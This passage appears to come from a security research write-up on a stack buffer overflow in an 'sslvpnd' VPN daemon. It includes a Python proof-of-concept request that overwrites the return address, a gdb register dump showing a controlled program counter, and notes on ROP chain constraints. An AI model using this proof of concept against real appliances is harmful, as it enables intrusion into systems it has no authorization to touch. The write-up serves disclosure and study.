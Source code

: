 ```cpp
memcpy(auStack16424,PACKET_IN,num_bytes_read);
```

This implementation doesn't take into account that the data in the `PACKET_IN` buffer can be up to 0x8000 bytes long, due to the previously mentioned `strncat()` function that joins those two 0x4000 buffers. Therefore, when a large packet is sent, we can overflow the stack buffer and overwrite the return address. 

![](pics/stack_overflow.png)
> Figure 4: Stack overflow

```python
FILLER = b'\x04' * (16400)
PC = b"\xcc\xcc\xcc\xcc\x00"
url = "https://%s:8443/" % TARGET

payload = FILLER + PC
r = requests.post(url, data=payload, verify=False)
```

```bash
[New Thread 30958.313]

Thread 10 "sslvpnd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 30958.313]
0xcccccccc in ?? ()
(gdb) info registers 
r0             0x0                 0
r1             0x81                129
r2             0x1                 1
r3             0x1                 1
r4             0x4040404           67372036
r5             0x4040404           67372036
r6             0xcccccccc          3435973836
r7             0x4040404           67372036
r8             0x4040404           67372036
r9             0x4040404           67372036
r10            0x4040404           67372036
r11            0x18f89c            1636508
r12            0x0                 0
sp             0x704aebe8          0x704aebe8
lr             0x1                 1
pc             0xcccccccc          0xcccccccc
cpsr           0x600f0010          1611595792
(gdb) 
```

## Improper memory configuration

Although there is a stack overflow vulnerability, our controlled buffer is created with `strncat()`. It's possible to inject a terminating NULL byte that will be picked-up by the `$pc` giving an attacker control over the execution of the program. However, usage of `strncat()` means NULL bytes can not be present within the buffer which significantly complicates ROP chain construction. 
